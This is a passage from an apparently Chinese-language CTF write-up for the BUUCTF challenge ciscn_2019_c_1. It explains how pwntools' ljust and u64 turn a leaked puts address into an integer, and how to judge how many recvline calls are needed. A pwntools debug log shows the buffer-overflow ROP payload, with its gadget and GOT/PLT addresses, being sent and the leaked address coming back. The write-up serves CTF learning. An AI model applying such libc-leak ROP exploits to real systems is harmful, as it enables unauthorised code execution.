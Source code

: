 `ljust(8, b'\0')` 表示将前面处理后的数据左对齐，并且如果数据长度不足 8 字节，就在右侧用空字节 `b'\0'` 进行填充，使其长度达到 8 字节。之所以要填充到 8 字节，是因为后续要使用 `u64` 函数将其解析为 64 位整数，而 64 位整数在内存中占用 8 个字节。

### 4. `u64(...)`

`u64` 是 `pwntools` 提供的一个函数，用于将一个 8 字节的字节序列解析为一个 64 位的无符号整数。

它会把前面经过处理和填充后得到的 8 字节数据转换为一个 64 位的整数，这个整数就是我们想要获取的 `puts` 函数在内存中的实际地址。

## 4 如何看要用多少r.recvline() / 实在不行就一个一个输进去慢慢试要用多少个

结合exp看

这是在exp里输入context.log_level = 'debug'返回的东西

```
➜  ~ python3 buuctf
[+] Opening connection to node5.buuoj.cn on port 28002: Done
[*] '/home/ljy/Desktop/Desktop/ciscn_2019_c_1'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[DEBUG] Received 0x3e bytes:
    b'EEEEEEE                            hh      iii                '
[DEBUG] Received 0x1d9 bytes:
    b'\n'
    b'EE      mm mm mmmm    aa aa   cccc hh          nn nnn    eee  \n'
    b'EEEEE   mmm  mm  mm  aa aaa cc     hhhhhh  iii nnn  nn ee   e \n'
    b'EE      mmm  mm  mm aa  aaa cc     hh   hh iii nn   nn eeeee  \n'
    b'EEEEEEE mmm  mm  mm  aaa aa  ccccc hh   hh iii nn   nn  eeeee \n'
    b'====================================================================\n'
    b'Welcome to this Encryption machine\n'
    b'\n'
    b'====================================================================\n'
    b'1.Encrypt\n'
    b'2.Decrypt\n'
    b'3.Exit\n'
    b'Input your choice!\n'
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Received 0x24 bytes:
    b'Input your Plaintext to be encrypted'
[DEBUG] Received 0x1 bytes:
    b'\n'
[DEBUG] Sent 0x79 bytes:
    00000000  00 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │·aaa│aaaa│aaaa│aaaa│
    00000010  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000050  61 61 61 61  61 61 61 61  83 0c 40 00  00 00 00 00  │aaaa│aaaa│··@·│····│
    00000060  20 20 60 00  00 00 00 00  e0 06 40 00  00 00 00 00  │  `·│····│··@·│····│
    00000070  28 0b 40 00  00 00 00 00  0a                        │(·@·│····│·│
    00000079
[DEBUG] Received 0xa bytes:
    b'Ciphertext'
[DEBUG] Received 0x220 bytes:
    00000000  0a 0a c0 f9  a1 c9 9b 7f  0a 45 45 45  45 45 45 45  │····│····│·EEE│EEEE│
    00000010  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    00000020  20 20 20 20  20 20 20 20  20 20 20 20  68 68 20 20  │    │    │    │hh  │
    00000030  20 20 20 20  69 69 69 20  20 20 20 20  20 20 20 20  │    │iii │    │    │
    00000040  20 20 20 20  20 20 20 0a  45 45 20 20  20 20 20 20  │    │   ·│EE  │    │
    00000050  6d 6d 20 6d  6d 20 6d 6d  6d 6d 20 20  20 20 61 61  │mm m│m mm│mm  │  aa│
    00000060  20 61 61 20  20 20 63 63  63 63 20 68  68 20 20 20  │ aa │  cc│cc h│h   │
```